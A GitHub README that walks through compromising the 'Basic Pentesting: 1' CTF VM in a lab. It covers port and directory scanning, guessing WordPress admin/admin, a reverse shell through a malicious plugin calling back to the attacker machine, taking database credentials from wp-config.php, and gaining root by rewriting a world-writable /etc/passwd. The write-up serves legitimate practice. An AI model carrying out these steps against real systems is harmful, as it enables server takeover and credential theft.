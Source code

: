# CTF-Walkthrough
This repository contains a list of CTFs/vulnerable virtual machines which I have attempted to pick up CTF skills.

# Basic Pentesting: 1
By Josiah Pierce  

* After the VM has been booted up, we are greeted with a login page that request for the password of user marlinspike.
* The IP address of the VM can be found by clicking the icon with 2 arrows pointing up and down respectively on the top right-hand corner of the VM. No nmap scans are thus needed.
* The IPv4 address of the VM is 192.168.110.135.
* From our Kali VM, execute `nmap -sS 192.168.110.135`.
* There are 3 ports that are open: 21 (ftp), 22 (ssh) and 80 (http). These results are loaded instantly after the command is executed - it is likely that the scan result was cached(?).
* We visit 192.168.110.135 and find a web server running. The page says "It works!".
* Note: Viewing the page source reveals no additional information.
* Note: /admin, /login.php, /robots.txt are invalid pages as well.
* Though the page also said that "no content has been added yet", we cannot necessarily trust it: run `dirbuster`, which tries to find hidden files and directories using a user-supplied wordlist.
* Put 192.168.110.135 into the `Target URL` of dirbuster. We will use a wordlist that is provided by dirbuster, which can be found in /usr/share/dirbuster/wordlists. We will use `directory-list-lowercase-2.3-small.txt` for a start. We will also use `30 threads`.
* While waiting for dirbuster to do its job, we will look at other areas, such as verifying that it is indeed the ssh service which is running at port 22. Since there is a response that requests for the password, we can confirm that it is indeed the case.
* Heading back to dirbuster, we find that there is a directory called `secret` that contains `wp-content`, `wp-includes`, etc.
* With 192.168.110.135/secret, we expect a WordPress page to load, which happens (page is titled "My secret blog"). Note: the page loads rather slowly and the page contents are not loaded properly, i.e. positioning of the texts, icons are off, as if there was no CSS.
* Placing our mouse over some of the links, we find that the hyperlink domain is actually `vtcsec`. A very likely reason that the page was loading slowly is that the browser was trying to resolve vtcsec, but was unable to do so eventually.
* Next, open our Hosts file in Kali: `sudo nano /etc/hosts` and add in 2 entries: `192.168.110.135 vtcsec` and `192.168.110.135 vtcsec.com`. Save the file once done. What this means is that the IP address of vtcsec is determined by us to be 192.168.110.135, and any  accesses to vtcsec will access 192.168.110.135, instead of trying to find out its IP address from a DNS server.
* Note: The vtcsec.com mapping is added just in case there might be a case where there is a `.com` domain extension for one of the hyperlinks in the WordPress page, though we have yet to see one so far.
* Reload `192.168.110.135/secret` and volia, we see that the page has been properly loaded. This is because the CSS was trying to pull from a domain that did not exist until we added the entries to the Hosts file.
* There is no interesting content on the site's post, so we head to the Login page of the WordPress site and attempt to login using the username `admin` and a random password. Using a random password allows us to check if an account with the username admin exists. The error message from an invalid login, that "the password you entered for the username admin is incorrect" confirms so. This is a form of information leakage in my opinion on WordPress' part.
* Next, we attempt a quick guess with the password `admin` for the admin account, and access is granted. No kind of bruteforcing is required here.
* Head to the `Plugins` page and install `malicious-wordpress-plugin` by `wetw0rk` [(GitHub)](https://github.com/wetw0rk/malicious-wordpress-plugin). Once it is installed on the WordPress site, a reverse shell is granted.
* Before beginning the installation of the plugin, we will first start up our listener by opening the Git repository from our terminal, and execute `python wordpwn.py 192.168.110.132 4000`. The IP address in the parameter is that of the Kali machine.
* The payload is then generated in a .zip file. Once the reverse TCP handler (listener) is started on the Kali terminal, we can upload the payload as a plugin (`GotEm`) to the WordPress site, and activate it.
* We will next head to the plugins editor, select the GotEm plugin to find out the path to the files which are within the plugin, which are `malicious/QwertyRocks.php` and `malicious/wetw0rk_maybe.php`. There are only commented codes in the former, and in the latter, we find that there is a whole long string within a base64_decode and eval functions.
* Next, we head to `vtcsec/secret/wp-contet/plugins/malicious/wetw0rk_maybe.php`.
* Heading back to our Kali terminal, we see that a session has been opened, and enter `shell`. Executing `whoami`, we see that we are www-data. We have now successfully logged into the victim VM.
* From the reverse shell which we have gotten, we can go up a few levels of directory to the one that contains a number of `wp-` PHP files, and specifically we want to download the wp-config.php to the root folder (i.e. back to our Kali machine): `download wp-config.php /root`.
* Open up the config file from our Kali machine with a text editor, and we find that we have the MySQL database username `root` and password `arootmysqlpass`.
* Side-note: We can probably do a **privilege escalation** from here after logging in to the database, but this is not the focus here at this moment.
* Next, we will use `unix-privesc-check` from `pentestmonkey` [(GitHub)](https://github.com/pentestmonkey/unix-privesc-check) on the victim VM. This tool is a "shell script to check for simple privilege escalation vectors on Unix systems".
* From our reverse shell, cd to `/var/www/html`, which hosts the secret page. We will now upload the tool to the victim VM: `upload /root/unix-privesc-check`.
* Give executable permissions to the script via chmod, and then `./unix-privesc-check standard > output.txt`. Wait for awhile for our results to be redirected to the output text file. Next, download output.txt to /root.
* Search for the string "WARNING" output.txt and we see that one of the findings is that `/etc/passwd` can be written by anyone. Download the /etc/passwd file to /root.
* We see that the password of root is `x`, which means that it has been encrypted. However, we can overwrite the encrypted password with a known password that we encrypt.
* Run `openssl passwd -1`, and enter a simple password (e.g. `pass`). `openssl passwd` computes the hash of our password typed at run-time in this case. Replace the `x` with our hash value, save the file, and upload the file back to the victim VM.
* Note: `-1` means the use of MD5 based BSD password algorithm 1.
* Execute `su root -l`, but there is an error stating that su must be run from a terminal. Execute `python -c 'import pty; pty.spawn("/bin/bash")'` to spawn a proper shell.
* Note: `-l` means `--login`, i.e. to start the shell as a login shell with an environment similar to a real login.
* Enter our password created above (e.g. `pass`), and we have got root access!
